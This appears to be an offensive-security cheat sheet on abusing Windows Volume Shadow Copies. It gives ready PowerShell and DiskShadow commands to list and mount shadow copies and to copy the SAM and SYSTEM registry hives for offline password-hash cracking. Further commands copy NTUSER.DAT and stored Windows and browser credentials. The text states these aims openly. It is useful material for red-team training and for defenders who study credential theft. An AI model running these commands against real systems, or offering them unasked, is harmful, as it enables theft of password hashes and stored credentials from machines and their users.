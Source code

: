 # Abusing Shadow Copies for Data Access

#### List All Shadow Copies
This command lists all available shadow copies on the target system. Shadow copies are backups of the system that can contain critical data such as registry hives and user files.
```powershell
vssadmin list shadows
```

#### Copying Files from Shadow Copies
The files stored in shadow copies are accessible through special paths that begin with `\\?\GLOBALROOT`. By copying these files, you can extract sensitive data like the SAM file (which stores password hashes) or user-specific files like `NTUSER.DAT` (which contains user profile information).

- Example: Copying the SAM File
The SAM file is part of the Windows registry that contains hashed user credentials. By copying it from a shadow copy, it becomes possible to extract password hashes for offline cracking or further attacks.
```powershell
Copy-Item -Path "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM" -Destination "C:\Path\To\sam_copy"
```

- Example: Copying the SYSTEM Hive
To decrypt the SAM file password hashes, you need the SYSTEM hive, which contains the key required for decryption.
```powershell
Copy-Item -Path "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM" -Destination "C:\Path\To\system_copy"
```

#### Mounting Shadow Copies for Full Access
Alternatively, you can mount a shadow copy to a drive letter or path, which allows you to access and browse its contents as if it were another partition or directory.

- Example: Using DiskShadow to Mount a Shadow Copy
You can use `DiskShadow` to mount a shadow copy to a specific directory for easier browsing:
```powershell
DiskShadow
add volume C: alias MyShadow
create
expose %MyShadow% X:
```
This mounts the shadow copy of the `C:` volume to the `X:` drive, making it accessible for further operations.

#### Copying Sensitive Files from Shadow Copies
- Example: Copying NTUSER.DAT
The `NTUSER.DAT` file contains registry settings specific to the user, including stored credentials and other sensitive information.
```powershell
Copy-Item -Path "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Users\Administrator\NTUSER.DAT" -Destination "C:\Path\To\ntuser_copy"
```

- Example: Copying Web Credentials
You can also exfiltrate stored browser credentials from the shadow copies:
```powershell
Copy-Item -Path "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Users\<Username>\AppData\Local\Microsoft\Credentials" -Destination "C:\Path\To\credentials_copy"
```
